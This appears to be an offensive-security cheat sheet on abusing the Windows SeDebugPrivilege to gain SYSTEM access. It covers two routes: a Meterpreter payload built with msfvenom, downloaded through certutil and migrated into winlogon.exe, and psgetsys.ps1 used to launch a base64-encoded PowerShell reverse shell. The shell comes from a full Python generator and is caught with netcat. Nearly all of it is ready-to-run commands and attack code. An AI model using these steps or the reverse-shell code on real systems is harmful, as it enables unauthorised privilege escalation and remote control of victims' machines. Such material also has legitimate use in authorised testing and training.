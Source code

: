 ### **INTRODUCTION**

In 2008 blog post on devblogs.microsoft.com has the title “If you grant somebody SeDebugPrivilege, you gave away the farm”. Basically, because a user with that privilege can debug any process (including those running as system), they can inject code into those processes and run whatever they want as that user.

### **SEDEBUGPRIVILEGE VIA METERPRETER MIGRATE**

2.  Generate the Payload:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=9001 -f exe -o rev.exe`  
    
    ![](../../../img/Windows-Environment/135.png)

    **NOTE:** Host the Payload Using Python `python -m http.server 80`
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/rev.exe rev.exe`  
    
    ![](../../../img/Windows-Environment/136.png)
    
4.  Set Up Handler:  
    `msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 9001; run"`  
    
    ![](../../../img/Windows-Environment/137.png)
    
5.  Execute the Payload:  
    `.\rev.exe`  
    
    ![](../../../img/Windows-Environment/138.png)
    
6.  Find a SYSTEM Process (e.g., winlogon.exe):  
    `ps winlogon`  
    
    ![](../../../img/Windows-Environment/139.png)

    **NOTE:** Don't forget to note the PID of the winlogon.exe process
    
7.  Migrate to the SYSTEM Process and Open a System Shell with Meterpreter  
    `migrate [PID]` , `shell`  
    
    ![](../../../img/Windows-Environment/140.png)
    

### **SEDEBUGPRIVILEGE VIA PSGETSYS.PS1**

1.  Download psgetsys.ps1 Script  
    `wget https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1`  
    
    ![](../../../img/Windows-Environment/141.png)

    **NOTE:** Host the Payload Using Python `python -m http.server 80`
    
2.  Transfer and Import psgetsys.ps1 Script  
    `certutil -urlcache -f http://[IP-ADRESS]:80/psgetsys.ps1 psgetsys.ps1`  
    
    ![](../../../img/Windows-Environment/142.png)

    **NOTE:** After downloading, import the script `Import-Module .\psgetsys.ps1`
    
3.  Identify a SYSTEM Process (e.g., winlogon.exe PID 548).  
    `(Get-WmiObject Win32_Process -Filter "Name='winlogon.exe'").ProcessId`
    
4.  Generate base64 Powershell reverse Shell with python script
    
    ```PYTHON
    #!/usr/bin/env python3
    
    import sys
    import base64
    
    def help():
        print("USAGE: %s IP PORT" % sys.argv[0])
        print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
        exit()
    
    try:
        (ip, port) = (sys.argv[1], int(sys.argv[2]))
    except:
        help()
    
    
    payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
    payload = payload % (ip, port)
    
    cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    
    print(cmdline)
    ```
    
5.  Run python script  
    `python3 revshell.py 10.11.92.52 9002`  
    
    ![](../../../img/Windows-Environment/143.png)
    
6.  Impersonate and Execute Another Command with SYSTEM Privileges:  
    `ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"`
    
7.  If you encounter error 122- ERROR_INSUFFICIENT_BUFFER, it indicates the command buffer is too small. Use shorter commands or split the payload into smaller parts:  
    `ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c ping [IP-ADRESS]"`
    
8.  Run the psgetsys.ps1 Script and Use ImpersonateFromParentPid to Gain SYSTEM Privileges:  
    `ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"`
    
9.  Use a Netcat Listener to Catch the Shell :  
    `rlwrap -cAr nc -lnvp 9002`